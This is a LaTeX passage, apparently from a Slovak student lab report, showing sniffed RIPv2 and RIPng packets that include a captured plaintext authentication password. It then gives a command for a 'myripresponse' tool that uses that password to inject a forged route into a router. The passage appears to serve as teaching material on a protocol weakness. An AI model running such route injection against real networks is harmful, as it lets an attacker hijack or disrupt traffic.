 \documentclass[12pt,a4paper,titlepage,final]{article}
\begin{document}
\begin{verbatim}
[23:04:03] RIPv2 from 10.0.0.1
Command: Request (1)
========== ENTRY ===========
Route Tag: 0
Address Family Identifier: unknown (0)
Metric: 16

[23:04:04] RIPv2 from 10.0.0.1
Command: Response (2)
====== AUTHENTICATION ======
Authentication type: Simple password
Password: ISA>28114bb8715
========== ENTRY ===========
Route Tag: 0
Address Family Identifier: IP (2)
IP Address: 10.48.51.0
Netmask: 255.255.255.0
Next Hop: 0.0.0.0
Metric: 1
========== ENTRY ===========
		    ...

[23:04:04] RIPng from fe80::a00:27ff:fe1b:716d
Command: Response (2)
========== ENTRY ===========
Route Tag: 0
IPv6 Prefix: fd00::
Prefix Length: 64
Metric: 1
========== ENTRY ===========
			...
\end{verbatim}

Najdôležitejšia časť pre úspešné vykonanie útoku je záznam s heslom, ktorým musíme náš záznam podpísať.

K podvrhnutiu falošného záznamu využijeme aplikáciu \texttt{myripresponse}. Útok môže vyzerať napr. následovne:

\begin{verbatim}
sudo ./myripresponse -i eth0 -r 10.10.10.0/24 -p "ISA>28114bb8715"
\end{verbatim}

Aj v tomto prípade je nutné spustenie s oprávneniami roota, nakoľko aplikácia využíva port číslo 520. Ak všetko prebehlo úspešne, v smerovacej tabuľke routera sa bude nachádzať nový záznam obshujúci cestu k sieti \texttt{10.10.10.0/24}.

\newpage



\begin{flushleft}
	
\end{flushleft}
\end{document}
